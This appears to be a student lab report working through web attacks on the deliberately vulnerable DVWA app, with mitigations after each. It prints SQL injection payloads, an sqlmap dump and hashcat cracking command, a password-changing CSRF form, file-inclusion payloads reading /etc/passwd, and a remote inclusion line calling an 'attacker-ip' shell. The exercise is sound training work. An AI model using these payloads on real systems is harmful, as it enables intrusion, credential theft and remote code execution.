# OWASP Top 10 Vulnerabilities Lab Report

## Objective
Identify and exploit OWASP Top 10 vulnerabilities in a controlled DVWA lab environment and demonstrate mitigation techniques.

---

# Environment Setup
- Kali Linux
- DVWA (Docker)
- Burp Suite
- Ngrok
- SecurityHeaders.com

---

# 1. SQL Injection

## Step 1: Authentication Bypass
Payload Used:
' OR '1'='1

This payload manipulates SQL query logic and bypasses authentication.



---

## Step 2: Extract Database Data
Payload:
1' UNION SELECT user, password FROM users --

This UNION query extracts usernames and password hashes.



---

## Step 3: SQLMap Automation
Command:
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xxx" -D dvwa --dump

SQLMap automatically detects injection and dumps database.

.png)



---

## Step 4: Hash Cracking
Command:
echo "hash" > hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --show

MD5 hashes cracked to plaintext passwords.



---

## Prevention
- Prepared Statements
- Parameterized Queries
- Input Validation

---

# 2. Cross Site Scripting (XSS)

## Stored XSS
Payload:

Script stored in database and executed for all users.



---

## Reflected XSS
Payload:

Executed immediately in response.



---

## Prevention
- Output Encoding
- CSP Header
- Input Validation

---

# 3. Cross Site Request Forgery (CSRF)

## Attack HTML
<form action="http://localhost/vulnerabilities/csrf/" method="GET">
<input type="hidden" name="password_new" value="hacked123">
<input type="hidden" name="password_conf" value="hacked123">
<input type="submit">
</form>

Victim password changed silently.



---

## Prevention
- CSRF Token
- POST requests
- SameSite Cookies

---

# 4. File Inclusion Attack

## Local File Inclusion
Payload:
?page=../../../../etc/passwd

Reads system sensitive file.



---

## PHP Wrapper
Payload:
php://filter/convert.base64-encode/resource=index.php

Source code disclosure.



---

## Remote File Inclusion
Payload:
?page=http://attacker-ip/shell.txt&cmd=id

Remote command execution.



---

# 5. Burp Suite Advanced Testing

## Intercept Login Request
- Proxy enabled
- Request captured
- Parameters modified



---

## Intruder Attack
- Payload list added
- Brute force performed
- Valid response identified



---

# 6. Web Security Headers

## Check Missing Headers
Command:
curl -I http://localhost

Missing headers detected.



---

## securityheaders.com Scan
Site graded low due to missing headers.



---

## Fix Headers
Added headers in Apache config:

Header always set X-Frame-Options "SAMEORIGIN"
Header always set X-Content-Type-Options "nosniff"
Header always set X-XSS-Protection "1; mode=block"
Header always set Content-Security-Policy "default-src 'self'"

---

## Verify Fix
Command:
curl -I http://localhost

All headers present.





---

# Tools Used
- Kali Linux
- DVWA
- Burp Suite
- SQLMap
- Hashcat
- Ngrok
- SecurityHeaders.com

---

# Conclusion
All OWASP Top 10 vulnerabilities were successfully exploited and mitigated in DVWA lab environment.
